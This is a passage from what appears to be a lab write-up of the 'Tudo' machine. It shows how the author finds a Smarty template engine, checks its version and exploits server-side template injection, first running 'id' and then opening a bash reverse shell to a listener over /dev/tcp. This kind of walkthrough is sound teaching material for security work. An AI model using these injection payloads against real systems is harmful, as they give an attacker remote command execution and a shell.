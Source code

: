 After a research about tpl files, we found that probably it's being used to templates

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:22:26.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:23:10.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:23:33.png)

It's `Smarty` template engine, now we could test it to see if it's vulnerable

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:24:17.png)

We found [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) the exploits

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:24:45.png)

So we test the version of Smarty running on the box

```
{$smarty.version}
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:26:12.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:26:21.png)

Ok, it's vulnerable

```
{php}echo+`id`;{/php}
```

And we have RCE

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:28:32.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:28:41.png)

And we have reverse shell

```
{php}echo `bash -c 'bash -i >& /dev/tcp/172.17.0.1/4242 0>&1'`;{/php}
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:33:16.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:33:29.png)

Now, again, let's automate it, just adapting our initial exploit

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:39:44.png)

motd_reverse.py
